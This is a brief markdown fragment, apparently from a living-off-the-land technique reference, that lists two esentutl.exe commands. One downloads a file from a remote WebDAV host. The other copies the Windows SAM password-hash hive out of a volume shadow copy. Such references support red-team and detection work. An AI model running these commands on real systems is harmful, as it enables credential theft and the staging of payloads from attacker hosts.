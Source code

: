### Download file from webdav
```
esentutl.exe /y \\<rhost>\<file> /d %HOMEDRIVE%%HOMEPATH%\<outfile>
```

### Dump registry
```
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\<outFile>
```

